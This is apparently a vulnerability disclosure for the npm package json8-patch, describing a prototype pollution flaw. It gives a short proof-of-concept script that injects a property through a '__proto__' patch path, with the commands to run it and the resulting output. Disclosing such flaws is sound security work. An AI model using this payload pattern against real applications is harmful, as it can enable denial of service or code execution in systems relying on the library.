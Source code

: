 # Description

`json8-patch` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var json8Patch = require("json8-patch")
var obj = {}
const patch = [{op: "add", path: "/__proto__/polluted", value: "Yes! Its Polluted"}];
console.log("Before : " + obj.polluted);
json8Patch.apply(obj, patch);
var obj1={}
console.log("After : " + obj1.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i json8-patch # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```

